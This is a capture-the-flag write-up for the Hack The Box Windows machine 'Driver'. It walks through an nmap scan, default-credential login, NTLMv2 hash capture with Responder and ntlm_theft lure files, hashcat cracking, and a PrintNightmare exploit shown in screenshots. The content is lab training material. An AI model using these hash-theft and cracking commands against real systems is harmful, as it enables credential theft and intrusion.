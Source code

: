 ```yaml
---
description: >-
  Driver is an easy windows HTB machine inspired by the recent CVE-2021-1675
  PrintNightmare.
---
```


# Driver

The nmap scans shown that the ports 80, 135 and 445 are open

```
# Nmap 7.91 scan initiated Sat Oct 16 22:47:55 2021 as: /usr/bin/nmap -Pn -T4 --max-retries 1 --max-scan-delay 20 --open -oN nmap/Port_driver.htb.nmap --system-dns --stats-every 1s driver.htb
Nmap scan report for driver.htb (10.10.11.106)
Host is up (0.087s latency).
Not shown: 997 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds

# Nmap done at Sat Oct 16 22:48:02 2021 -- 1 IP address (1 host up) scanned in 7.47 seconds
```

Browsing to the port 80 we got the following prompt:

![](<../.gitbook/assets/image (52).png>)

`admin:admin` works! we got the following portal:

![](<../.gitbook/assets/image (56).png>)

![](<../.gitbook/assets/image (54).png>)

We can try and force a NTLMv2 hash theft. When a Windows user attempts to connect to a SMB server, if the server asks for authentication, the client will automatically provide it unless specifically restricted. The authentication which is sent is in the form of a hash, which can then be cracked to reveal the logged in user’s password. Using [https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft) and responder is easy.

`sudo responder -wrf --lm -v -I tun0`

``![](<../.gitbook/assets/image (53).png>)``

Generate the payload files with the following command:

`ntlm_theft.py — generate all — ip 10.10.14.93 — filename test`

Will result in multiple files generated, I tried several until test.lnk was catched by responder:

![](<../.gitbook/assets/image (55).png>)

Bruteforcing the hash returned the following password:

`hashcat -m 5600 hash.txt -a 3 /usr/share/wordlists/rockyou.txt --status`

``![](<../.gitbook/assets/image (46).png>)``

So we have username and password. Next thing I tried was to enumerate using these credentials without success. Found this link which is almost a writeup, lol: [https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html](https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html). So I conf my smb shared and proceded: 

Created the payload:

![](<../.gitbook/assets/image (49).png>)

Executed the python script... and sucess!

![](<../.gitbook/assets/image (48).png>)

![](<../.gitbook/assets/image (51).png>)

![](<../.gitbook/assets/image (57).png>)


